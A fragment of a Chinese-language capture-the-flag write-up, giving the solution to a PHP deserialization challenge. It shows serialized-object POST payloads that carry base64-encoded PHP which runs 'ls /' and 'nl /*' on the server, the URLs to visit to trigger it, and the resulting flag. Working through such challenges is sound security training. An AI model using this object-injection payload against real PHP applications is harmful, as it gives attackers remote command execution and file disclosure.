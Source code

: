   所以解题payload可以按下面步骤执行

   ```
   1.
   POST：data=O:3:"SDU":1:{s:7:"Dazhuan";O:3:"STU":1:{s:3:"stu";O:3:"CTF":2:{s:7:"hackman";s:24:"PD9waHAgYGxzIC8gPjFgOw==";s:8:"filename";s:5:"5.php";}}}
   2.
   访问http://url/5.php	//第一次执行命令
   3.
   访问http://url/1		//知道flag在根目录下
   4.
   POST：data=O:3:"SDU":1:{s:7:"Dazhuan";O:3:"STU":1:{s:3:"stu";O:3:"CTF":2:{s:7:"hackman";s:24:"PD9waHAgYG5sIC8qPjFgOw==";s:8:"filename";s:5:"5.php";}}}
   5.
   访问http://url/5.php	//执行新命令
   6.
   访问访问http://url/1	//拿到flag
   ```

   flag为：

   ```
   flag{f44ab7d7195a1f156aa2fbc1ceba61ec}
   ```